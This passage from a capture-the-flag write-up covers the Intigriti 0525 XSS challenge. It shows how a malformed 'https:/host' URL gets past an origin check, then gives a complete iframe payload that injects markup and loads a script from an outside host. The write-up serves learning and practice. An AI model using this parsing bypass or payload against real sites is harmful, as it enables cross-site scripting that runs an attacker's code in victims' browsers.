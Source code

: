 Let's see how this behaves:

```js
// Simulating the check in safeURL, assuming location.origin is 'https://challenge-0525.intigriti.io'
(new URL('https:/poc.vitorfalcao.com/intigriti.js', location)).origin
// expected: 'https://challenge-0525.intigriti.io'

// Simulating the usage in addDynamicScript
(new URL('https:/poc.vitorfalcao.com/intigriti.js')).origin
// expected: 'https://poc.vitorfalcao.com'
```

> As a cool side note, [@stealthcopter](https://x.com/stealthcopter) later discovered that an alternative payload format like `https:@domain/yourscript.js` (e.g., `https:@poc.vitorfalcao.com/intigriti.js`) can also exploit similar URL parsing discrepancies to achieve the same result.

Perfect! The same URL string yields two different origins based on how `new URL()` is called. This was the key. Time to build the final payload and get that alert!

```html
<html>

<body>
    <iframe id="content""></iframe>
    <script>
        const payload = " https:/poc.vitorfalcao.com/intigriti.js"
        const encodedPayload = encodeURIComponent(payload)
        document.getElementById('content').src = "https://challenge-0525.intigriti.io/index.html?name=%3Cspan%20id%3D%22CONFIG_SRC%22%20data-url%3D"
            + encodedPayload + "%3Etest</div><strong>test"
            setTimeout(() => {
                document.getElementById('content').src = '/back.html?n=1'
            }, 5000)
    </script>
</body>

</html>
```

![](/img/intigriti-0525-writeup/alert.png)

# XSS Achieved!

This challenge was a brilliant reminder of how seemingly small details in JavaScript execution, DOM manipulation, and URL parsing can combine to create exploitable vulnerabilities. Huge props to Johan for another mind-bending puzzle! And yes, the confetti finally stopped.
